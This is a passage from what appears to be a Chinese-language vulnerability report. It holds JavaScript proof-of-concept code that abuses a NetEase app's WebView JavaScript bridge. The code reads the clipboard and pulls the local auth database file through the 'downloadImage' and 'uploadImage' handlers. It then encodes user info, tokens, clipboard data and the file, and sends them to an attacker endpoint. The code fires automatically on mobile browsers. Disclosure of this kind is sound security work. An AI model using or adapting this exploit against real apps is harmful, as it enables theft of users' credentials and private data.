                 }
            )

            WebViewJavascriptBridge.callHandler("getClipboardData", 
                {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{type:"text/plain"}},
                function(e){
                    if(e.code==200){
                        clipData = e.result;
                        console.log("获取粘贴板成功！！！")
                    }
                }
            )

            //下载文件/图片，可以是本地路径，返回文件id，高危！！！！！！
            WebViewJavascriptBridge.callHandler("downloadImage", 
                {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{url:"/data/data/com.netease.gl/databases/auth",isShowProgressTips:1}},
                function(res){
                
                    console.log("upload file:", "/data/data/com.netease.gl/databases/auth")
                    if(res.code==200){
                        var localId = res.result.localId;
                        //上传文件/图片，可以是本地路径，高危！！！！！配合上一步的文件id，完成文件上传，上传到网易云中
                        WebViewJavascriptBridge.callHandler("uploadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{localId:localId,isShowProgressTips:1,usageType:1}},function(res2){
                            if(res2.code==200){
                                var fileData = res2.result
                                console.log("获取数据库文件成功！！！")

                                var finalData = {
                                    usrInfo:usrInfo,
                                    tokenInfo:tokenInfo,
                                    clipData:clipData,
                                    fileData:fileData
                                }
                                // send data
                                var encoded = encode(JSON.stringify(finalData))
                                justSend(api_burp + '?data=' + encoded)
                            }
                            })
                    }
                })
            
        }
        // 判断pc端还是手机端
        const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
        if (isMobile) {
            /* your code here */
            sendData()
        }       

    完整利用过程请看POC视频

### Proof
请提供截图或视频
视频链接：链接：https://pan.baidu.com/s/1ujV4aKjagPCMNhhxELePgg 提取码：1314
